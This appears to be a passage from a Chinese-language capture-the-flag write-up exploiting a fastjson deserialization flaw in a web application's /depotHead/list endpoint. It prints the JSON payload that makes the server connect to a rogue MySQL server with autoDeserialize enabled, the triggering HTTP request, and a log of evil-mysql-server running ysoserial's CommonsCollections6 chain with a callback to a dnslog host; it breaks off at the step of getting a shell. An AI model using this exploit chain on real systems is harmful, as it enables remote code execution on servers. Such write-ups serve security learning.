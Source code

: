 payload：

```json
{
  "name":{
    "@type":"java.lang.AutoCloseable",
    "@type":"com.mysql.jdbc.JDBC4Connection",
    "hostToConnectTo":"127.0.0.1",
    "portToConnectTo":3306,
    "info":{
      "user":"ysu_CommonsCollections6_ping xxx.dnslog.cn",
      "password":"pass",
      "statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
      "autoDeserialize":"true",
      "NUM_HOSTS":"1"
    }
  }
```

触发漏洞点：

```http
GET /depotHead/list?search=URL编码后的payload&currentPage=1&pageSize=15 HTTP/1.1
Host: xx.xx.xx.xx:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://xx.xx.xx.xx:8000/pages/bill/retail_out_list.html
Cookie: JSESSIONID=0EB6ECBBF6EE85E4E80665810DA909B9


```

使用 [evil-mysql-server](https://github.com/dushixiang/evil-mysql-server) 和 [ysoserial](https://github.com/su18/ysoserial)（整理笔记的时候发现 su18 师傅把仓库给删除了，不过在 github 上找到了别人上传的[仓库镜像](https://github.com/wgetnz/ysoserial)）启动一个恶意 mysql 服务并执行 payload：

```xml
root@kali:~$ ./evil-mysql-server -addr 3306 -java java -ysuserial ysuserial-1.4-su18-all.jar
2023/03/10 15:08:14 [-] evil mysql server v0.0.2 listen on 0.0.0.0:3306
2023/03/10 15:09:35 [+] new client connected : xx.xx.xx.xx:55682
2023/03/10 15:09:35 [√] write greeting success.
2023/03/10 15:09:35 [-] username: ysu_CommonsCollections6_ping xxx.dnslog.cn

2023/03/10 15:09:35 [-] request query statement: SHOW SESSION STATUS
2023/03/10 15:09:35 [-] exec: /usr/bin/java -jar ysuserial-1.4-su18-all.jar -g CommonsCollections6 -p ping xxx.dnslog.cn

2023/03/10 15:09:35 [√] write payload success.
```

获取 shell 查看 flag：
